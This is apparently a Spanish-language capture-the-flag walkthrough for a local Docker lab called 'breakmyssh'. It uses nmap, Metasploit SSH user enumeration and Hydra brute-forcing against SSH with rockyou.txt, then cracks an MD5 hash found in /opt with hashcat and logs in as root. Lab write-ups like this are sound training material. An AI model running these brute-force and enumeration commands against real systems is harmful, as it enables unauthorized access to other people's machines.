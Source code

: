 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh breakmyssh.tar
```

![Pasted image 20250130205609](https://github.com/user-attachments/assets/af261095-4475-4fba-be66-9763d5705f22)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250130205731](https://github.com/user-attachments/assets/deb0c2fd-3939-4853-94a8-a5e1197db29a)

Utilizamos **Metasploit** para buscar usuarios:

```
search ssh_enumusers
```

![Pasted image 20250131104151](https://github.com/user-attachments/assets/7134f0cc-fb7f-4bde-8aa8-d3eb885f9c22)

```
use auxiliary/scanner/ssh/ssh_enumusers
```

![Pasted image 20250131104431](https://github.com/user-attachments/assets/54aa9ee2-4bc8-43c2-9a8c-5263351c6577)

```
show options
```

![Pasted image 20250131104454](https://github.com/user-attachments/assets/b3025ead-e21e-4d95-b9c9-f3be363400c4)

```
set RHOSTS 172.17.0.2
```

![Pasted image 20250131104537](https://github.com/user-attachments/assets/cf34ce4c-cc36-4803-a7ef-a0b99c36c8a3)

```
set USER_FILE /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250131104553](https://github.com/user-attachments/assets/dc0317f9-1f38-4286-86c9-fb53ca5dc107)

```
show options
```

![Pasted image 20250131104620](https://github.com/user-attachments/assets/371f6b94-3205-48e4-b95d-3d023c167469)

```
run
```

![Pasted image 20250131104734](https://github.com/user-attachments/assets/d83b9a9d-6306-48d0-87cc-829fe41489b5)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250130210723](https://github.com/user-attachments/assets/d80e509d-a42f-44c1-9d09-c8a70c17da22)

Nos conectamos con **SSH**:

```Bash
ssh lovely@172.17.0.2
```

![Pasted image 20250130211908](https://github.com/user-attachments/assets/b1cd994a-16bc-4090-a0e1-bb51e23adf13)

Buscamos archivos ocultos:

```Bash
cd /opt
```

![Pasted image 20250131101511](https://github.com/user-attachments/assets/3bdc329f-5a83-4ad0-8f9f-60c01696dcc2)

```Bash
ls -la
```

![Pasted image 20250131101531](https://github.com/user-attachments/assets/f5447675-7f03-4db2-8dcb-f6a6db0bf03c)

```Bash
cat .hash
```

![Pasted image 20250131101555](https://github.com/user-attachments/assets/c3690b83-342a-45d3-90bb-65e1f03fbb1d)

Encontramos un hash.

Utilizamos **hash-indentifier** para ver tipo de hash:

```Bash
hash-identifier aa87ddc5b4c24406d26ddad771ef44b0
```

![Pasted image 20250131102344](https://github.com/user-attachments/assets/e8f85091-e0ef-443b-b184-74cce072fbcc)

Utilizamos **hashcat** para crackear:

```Bash
nano hash.txt
```

![Pasted image 20250131101629](https://github.com/user-attachments/assets/172d1af1-bf37-46dd-bc56-5ca9c906fb0e)

```Bash
aa87ddc5b4c24406d26ddad771ef44b0
```

![Pasted image 20250131103229](https://github.com/user-attachments/assets/f6cdb786-8863-4f1a-8384-178092a23cb8)

```Bash
hashcat -a3 -m 0 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250131102956](https://github.com/user-attachments/assets/b7ce0526-44c2-4126-b6ba-83237dccaaf1)

![Pasted image 20250131102847](https://github.com/user-attachments/assets/2d7def86-33ab-4525-8d6b-62916a93c2d7)

Otra forma de tener la contraseña:

Fuerza Bruta con **Hydra**:

```Bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250130211807](https://github.com/user-attachments/assets/a0c46659-d0f6-4e17-bdb0-d9045bdfd8dc)

Nos conectamos con **SSH**:

```Bash
ssh root@172.17.0.2
```

![Pasted image 20250131103437](https://github.com/user-attachments/assets/6d5f7e0b-6a71-4a32-bfb2-54092165478b)

```Bash
whoami
```

![Pasted image 20250131103454](https://github.com/user-attachments/assets/c44ca49a-2fbc-4e6c-974d-d27f50b3ca0b)
